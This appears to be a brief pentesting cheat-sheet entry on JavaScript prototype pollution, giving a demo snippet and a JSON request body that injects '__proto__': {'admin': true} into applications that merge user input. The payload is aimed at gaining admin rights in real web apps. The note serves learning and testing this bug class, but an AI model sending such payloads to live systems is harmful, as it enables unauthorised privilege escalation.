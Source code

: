 # Prototype Pollution
- Manipulate the prototype of an attribute of an object so that instances with that undefined attribute inherit the value of the manipulated prototype.
	```js
	var user1 = {}
	var user2 = {}
	user1.__proto__.isAdmin = "Yes"
	console.log(user1.isAdmin)
	console.log(user2.isAdmin)
	```
- Make sure in the code exists the function **merge** to merge attributes in an object.
	```json
	{
		"email":"test@test.com",
		"msg":"Hi this is a POC",
		"__proto__": {
			"admin": true
		}
	}
	```